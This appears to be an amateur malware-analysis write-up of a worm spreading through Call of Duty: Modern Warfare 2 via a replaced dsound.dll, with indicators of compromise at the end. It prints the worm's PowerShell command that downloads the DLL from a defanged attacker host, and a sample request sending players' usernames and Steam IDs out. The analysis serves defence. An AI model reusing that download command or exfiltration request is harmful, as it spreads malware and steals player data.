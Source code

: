 # Call of Duty: Modern Warfare 2 (2009) Worm
---
I saw an article regarding a new worm spreading via Call of Duty: Modern Warfare 2. Link [here](https://www.techspot.com/news/99573-hackers-infecting-modern-warfare-2-players-self-spreading.html)

I haven't seen any analysis write-ups on it yet so I wanted to take a look at it myself despite not really knowing much on game hacking.

---

## Obtaining Samples
I looked at some of the Steam Forum [posts](https://steamcommunity.com/app/10190/discussions/0/3810656756190466074/?ctp=2#c3800524658154744558) and someone identified some strings located in the binary. Additionally, they mentioned the file that gets infected or replaced by the worm: dsound.dll. Others also mentioned the classified name they were alerted on by their anti-virus: Trojan/Win32: Wacatac.B!ml

Using this info, I managed to find a number of samples on VirusTotal.

---

## Analysis

Due to the file being a DLL, I looked at the exports first. There weren't any blatantly malicious export names like "SpreadWorm" but there were two that caught my eye. DirectSoundCaptureCreate8 and DirectSoundCreate8 are weird. Why would Infinity Ward name exports these? I'm sure if I reinstalled MW2 and looked at the original DLL, these wouldn't exist.

![Exports](Pictures/codmw2-exports.png)

When I initially dove into these, DirectSoundCaptureCreate8 didn't have anything blatantly malicious looking. However, DirectSoundCreate8 did. I saw a number of strings that looked to be obfuscated and then I noticed the string: ```User was randomly selected to be a spreader in modded lobbies.\n```

![spreaderString](Pictures/codmw2-spreaderString.png)

I then worked on deobfuscating the strings. This was surprisingly easy because it was a simple rotation cipher. The rotation amount varied per string but this was easily solved with CyberChef just by clicking the up or down arrow in the ROT13 recipe. I didn't feel like completely reversing the string obfuscation.

Below are some of the deobfuscated strings.

![deobfuscatedStrings](Pictures/codmw2-deobfuscatedStrings.png)

These are all related to downloading a file from the internet. After a little more reversing it seems like these APIs are responsible for downloading updated versions of the worm and saving it as dsound1.dll and then moving the file to dsound.dll.

![wormUpdate](Pictures/codmw2-downloadUpdate.png)

Taking a look at other deobfuscated strings, particularly URLs, I identified the initial connection routine. It appears to craft a packet to ```http://www[.]shinyware[.]systems/telemetry``` containing information about the victim. Specifically the username, Steam ID, cpu, and Windows version.
Below is an example packet. Keep in mind that this is purely from code analysis and could be slightly incorrect. I didn't want to reinstall MW2 nor did I want to infect anyone else while playing.
```
POST /telemetry
Host: www[.]shinyware[.]systems
Content-Type: application/x-www-form-urlencode
Data:
username=fakeuser&steamID=110191&cpu=Intel_i7&gpu=AMD_Radeon_6700&winver=Windows10
```

This is all pretty basic malware stuff but my biggest question is how is this spreading from player to player? So I began looking at RCE vulnerabilities for MW2. Surprisingly, I found a couple. This also made me a bit concerned about my younger self's PC after experiencing a few hacked lobbies. Eventually, in the rabbit hole, I discovered [this](https://github.com/BlastsMods/JoinPartyRCE/tree/master).

As I started diving into the source code I found the main exploit string.

![exploitString](Pictures/codmw2_exploitString.png)

This is extremely similar to a string within the worm-infected dsound.dll file.

![exploitDLL](Pictures/codmw2-exploitDLL.png)

I haven't really gone down the game-hacking rabbit hole so I'm not sure exactly how this JoinParty RCE works other than it's supposedly a buffer overflow that leads to RCE. It looks like it was originally designed for hacked lobbies to give everyone cheats. See the se7en sins [post](https://www.se7ensins.com/forums/threads/release-mw2-rce-menu-tu9.1771186/).

It looks like the author of this malware modified it to instead perform a Powershell command to download the worm. The Powershell command was obfuscated in the code:

```powershell -Command "(New-Object System.Net.WebClient).DownloadFile('http://www[.]shinyware[.]systems/dsound.dll', 'dsound.dll') "```

From my quick analysis of the binary, I'm not really sure of the main point of the worm. I'm not sure if it's used to spread additional malware, create a botnet for DDoS, remote access to victims, pure chaos, etc. However, I did find this Youtube [video](https://www.youtube.com/watch?v=9aAiIHY5B20) of what looks to be the worm in action. I say that because in the comments of the video it states "it was shiny's worm actually" and there's a string in the binary that states "get cucked by shiny" who is theoretically the author of the worm.

Again, I didn't want to spend a ton of time on this because I have higher-priority projects but this was a fun little analysis to do. If anyone else takes a deep dive, especially into the RCE itself please send it my way because I'd be very interested.

---

## IOCs
Hashes (SHA256):
- 26e2fa19d21b312337e06271ad00b14f8b15123779c6c96e7b2526e11070d1d4
- 20a7b7e215784b6dec17f75632e966985c63d97af1a94f7813fe120d4882a36a
- ee76423a6fd8a5ea13c14dda646baf9c957b6d4f126d358c47ac3a08ed0355b7
- cf013939eb5ac2a8c698868d0fdcbde950351c0db6fd932cdf9970d7b3376163
- a0ee880294af310d284fc177d5d9e01c4822701cc4a36c90c1dd4405ad175a35
- 9f06583803b78b1319093a2fde7304c4b3db2ecaabda846512e467740a177aa0
- bf69163328382717689382e69221d05c64302a391b4e48c0c148e299c056279e
- 86471038d536897fd254648f964c342d9f126953c90948d5bddec931f86d5a79
- ca537f4fdb9403718e6a9c2422a0efa94e3ec04aefd199b7008cc7cfcb11dd2e
- 8d4218da477d68c450a058fbcca3c46a2044e772a56de86aa3540ea669fa0d00
- 4e3f6d9f80805f389c8da8654e544144f56a4b77b4c6a38ac71ec0c487ac96f4
- 67351a25307b2f386fc35c134a5eb61b5354883eed7f284f8ab05e9783b63072
- ecc2e51f37fa0a390deac423736e7f18776a1d58798ded78a4402517fb9b4113
- 8f45a6615851789a51e97f4f103303bf7e643007a946bcd4fb16f1f33a3a0d54
- cb000abed31b92b4f3f895a633ef0ffaf01a1be0dfc73619acf98c1605a5999d
- f78d1f1e336202bf1b5ec09b37e06b01074216d55d73fa9555c7aba769cf54e1

Filename: dsound.dll

URLs:
- http://www[.]shinyware[.]systems/telemetry
- http://www[.]shinyware[.]systems/blocked[.]txt
- http://www[.]shinyware[.]systems/dsound[.]dll
